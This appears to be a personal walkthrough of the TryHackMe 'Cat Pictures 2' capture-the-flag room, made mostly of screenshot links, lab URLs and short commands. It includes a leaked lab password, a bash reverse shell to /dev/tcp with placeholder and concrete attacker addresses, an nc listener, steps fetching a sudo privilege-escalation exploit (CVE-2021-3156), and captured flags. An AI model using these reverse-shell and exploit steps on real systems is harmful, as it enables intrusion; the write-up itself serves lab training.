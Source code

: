 ```
Now with more Cat Pictures!
```

[TryHackMe | Cat Pictures 2](https://tryhackme.com/room/catpictures2)

https://medium.com/@abylinjohnson/cat-pictures-2-tryhackme-walkthrough-51e0425184e4

![[Pasted image 20230702210735.png]]

![[Pasted image 20230702211037.png]]

![[Pasted image 20230703205316.png]]

![[Pasted image 20230703205403.png]]

![[Pasted image 20230703205530.png]]

http://10.10.113.42/#16678460194615

![[Pasted image 20230703205904.png]]
![[Pasted image 20230703210224.png]]

https://github.com/LycheeOrg/Lychee

https://github.com/wsmaxcy/Cat-Pictures-2-Writeup

http://10.10.113.42/#16678460194615/16678466730867

![[Pasted image 20230703210940.png]]

```
exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
```

![[Pasted image 20230703211310.png]]

```
http://10.10.113.42:8080/764efa883dda1e11db47671c4a3bbd9e.txt
```

![[Pasted image 20230703211957.png]]

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

http://10.10.113.42:3000/user/login?redirect_to=%2f

![[Pasted image 20230703212141.png]]

![[Pasted image 20230703212318.png]]

http://10.10.113.42:3000/samarium/ansible/commit/0e5c3274a60d233769fc1bfbf0d363f36ae7a944

![[Pasted image 20230703212421.png]]

http://10.10.113.42:3000/samarium/ansible/src/commit/0e5c3274a60d233769fc1bfbf0d363f36ae7a944/flag1.txt

![[Pasted image 20230703212528.png]]

```
10d916eaea54bb5ebe36b59538146bb
```

http://10.10.113.42:1337/

![[Pasted image 20230703212746.png]]

http://10.10.113.42:3000/samarium/ansible

![[Pasted image 20230703213507.png]]

http://10.10.113.42:3000/samarium/ansible/raw/branch/main/playbook.yaml

```
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: whoami
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

```
bash -i >& /dev/tcp/<#ATTACKERIP>/<#ATTACKERPORT> 0>&1
```

```
bash -c "bash -i >& /dev/tcp/10.17.44.152/4444 0>&1"
```

```
nc -lnvp 4444
```

![[Pasted image 20230703215406.png]]

![[Pasted image 20230703215437.png]]

![[Pasted image 20230703215509.png]]

```
5e2cafbbf180351702651c09cd797920
```

https://github.com/blasty/CVE-2021-3156/blob/main/hax.c

![[Pasted image 20230703220553.png]]

```
searchsploit -m 49522
```

![[Pasted image 20230703220703.png]]

```
git clone https://github.com/blasty/CVE-2021-3156
```

```
tar -cvf exploit.tar CVE-2021-3156
```

```
python3 -m http.server
```

![[Pasted image 20230703222439.png]]

![[Pasted image 20230703222459.png]]

![[Pasted image 20230703222534.png]]

```
tar xopf exploit.tar
```

![[Pasted image 20230703222823.png]]

![[Pasted image 20230703223211.png]]

![[Pasted image 20230703223842.png]]

```
6d2a9f8f8174e86e27d565087a28a971
```

![[Pasted image 20230703223955.png]]

![[Pasted image 20230703224049.png]]




